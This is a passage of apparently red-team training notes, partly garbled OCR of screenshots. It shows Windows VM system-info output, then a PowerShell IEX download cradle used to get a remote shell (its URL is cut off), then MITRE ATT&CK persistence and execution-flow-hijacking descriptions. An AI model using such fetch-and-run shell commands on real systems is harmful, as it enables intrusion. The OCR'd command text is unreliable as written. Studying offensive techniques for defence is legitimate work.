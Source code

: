. 6.3 
Enterprise 
Client 
_rel ease. 191206-1406 
. 11/4/2020 AM 
. 00329-00000-00003-AA731 
Windows 10 Enterprise 
Adri an 
C: ndows 
. 2009 
. {4, 7, 15, 16...} 
{VBOX 
Default System BIOS 
Default System BIOS 
. 110 
. 111 
Bios 
innotek GmbH 
Default System BIOS 

![](https://2121993737-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2Fred-team-notes-2-0%2F-MRhAIvKacb-RzsncVfy%2F-MRhB0wYu4H_7qUpbTo7%2F1.png?generation=1611370865292803&alt=media)

What about grabbing a Remote Shell, well we will use the common IEX Command to achieve that.

Windows PowerSheII 
PS C: nchester.DC> IEX (New-object Net. Webclient) . Downloadstring( 

![](https://2121993737-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2Fred-team-notes-2-0%2F-MRhAIvKacb-RzsncVfy%2F-MRhB0wZuUTvhPAl9Bjl%2F2.png?generation=1611370865292819&alt=media)

Shell:

![](https://2121993737-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2Fred-team-notes-2-0%2F-MRhAIvKacb-RzsncVfy%2F-MRhB0w_JGUZ9oerSmEG%2F3.png?generation=1611370865301493&alt=media)

PowerShell is a powerful interface and there are many offensive tools that take advantage of its capabilities do challenge yourself to find them out in the offensive side of things.

# persistence

The Adversary is trying to maintain their foothold.

Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code.

## t1574-hijack-execution-flow

Adversaries may execute their own malicious payloads by hijacking the way operating systems run programs. Hijacking execution flow can be for the purposes of persistence, since this hijacked execution may reoccur over time. Adversaries may also use these mechanisms to elevate privileges or evade defenses, such as application control or other restrictions on execution.
